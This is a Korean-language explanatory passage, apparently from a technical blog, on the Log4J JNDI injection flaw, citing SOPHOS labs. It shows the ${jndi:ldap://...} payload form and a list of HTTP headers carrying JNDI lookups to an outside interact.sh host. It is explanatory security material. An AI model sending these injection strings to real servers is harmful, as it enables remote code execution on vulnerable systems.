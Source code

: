 `${jndi:ldap://example.com/exploit}` 꼴의 문자열을 이용하게 되면 JNDI를 lookup 해서 `ldap://example.com/exploit`을 가져옵니다. 이 때, 임의 코드를 원격에서 실행시킬 수 있습니다. (RCE, remote code execution)

![](picture/2.png)
- Picture 2. How the Log4J exploit works (SOPHOS labs 제공)

SOPHOS labs는 아래와 같이 GET method request 시 header 부분을 조작해 JNDI Injection을 할 수도 있다고 얘기합니다.
```
referer=${jndi:ldap://[redacted].interact.sh},
x-http-host-override=${jndi:ldap://[redacted].interact.sh},
true-client-ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-port=443,
x-client-ip=${jndi:ldap://[redacted].interact.sh},
cf-connecting_ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-host=${jndi:ldap://[redacted].interact.sh},
contact=${jndi:ldap://[redacted].interact.sh},
host=[redacted].com,
from=${jndi:ldap://[redacted].interact.sh},
cache-control=no-transform,
x-forwarded-proto=https,
accept-language=en,
client-ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-for=${jndi:ldap://[redacted].interact.sh},
x-originating-ip=${jndi:ldap://[redacted].interact.sh},
x-host=${jndi:ldap://[redacted].interact.sh},
forwarded=${jndi:ldap://[redacted].interact.sh},
accept=*/*,
x-real-ip=${jndi:ldap://[redacted].interact.sh},
```
